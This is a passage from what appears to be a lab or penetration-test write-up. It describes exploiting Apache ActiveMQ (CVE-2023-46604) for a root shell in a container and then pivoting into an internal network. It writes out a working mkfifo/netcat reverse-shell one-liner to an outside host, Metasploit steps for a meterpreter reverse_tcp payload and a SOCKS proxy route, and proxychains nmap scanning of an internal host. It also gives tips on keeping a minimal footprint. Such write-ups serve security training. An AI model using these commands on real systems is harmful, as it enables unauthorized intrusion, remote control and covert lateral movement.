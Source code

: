 - Running the exploit gives a `root` shell **in the container**.

  ![image-20250420215750423](https://i.imgur.com/OJRu8gA.png)

- From there, we may run a reverse shell for convenience

  ```bash
  # On attacker Machine
  nc -lvnp 9000
  
  # On "exploit shell" obtained above (payload from revshells.com)
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.122.1 9000 >/tmp/f
  ```

  ![image-20250421030901073](https://i.imgur.com/VRqJogs.png)

- Now we infiltrate the network further to scan for more valuable targets. A scan of the internal network shows that 10.0.0.2 (kingdom) have SSH service enabled (had to install `nmap` to run the scan, an unprivileged user may `wget` a [portable](https://github.com/opsec-infosec/nmap-static-binaries) `nmap` binary, use it, then delete it).

  ![image-20250421004613632](https://i.imgur.com/w4pElYL.png)

- However, to keep footprint minimal, it's better not to install any tools on the compromised host. For that, we setup a SOCKS proxy to route traffic generated by attacker tools (running locally) to the internal network `10.0.0.0/24` and reroute answers back to the tool.

  ```bash
  # Re-run the exploit, but with meterpreter payload instead
  $ msfconsole
  > use multi/misc/apache_activemq_rce_cve_2023_46604
  ... # same options as above
  > set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
  > exploit
  
  # Create a proxy to the internal network, accessible at 127.0.0.1:9050
  > use auxiliary/server/sockes_proxy
  > set SRVHOST 127.0.0.1
  > set SRVPORT 9050
  > run
  > sessions # show active sessions
  > route add 10.0.0.0 255.255.255.0 1 # add route to 10.0.0.0/24 via session 1
  > route # verify routes
  ```

- Verification

  ![image-20250421030313195](https://i.imgur.com/GhWWEY8.png)

- Confirm our previous finding by running `nmap` scan through the proxy

  ```bash
  sudo apt install proxychains
  echo "socks5 127.0.0.1 9050" >> /etc/proxychains.conf
  proxychains nmap -p22 -A 10.0.0.2
  ```
  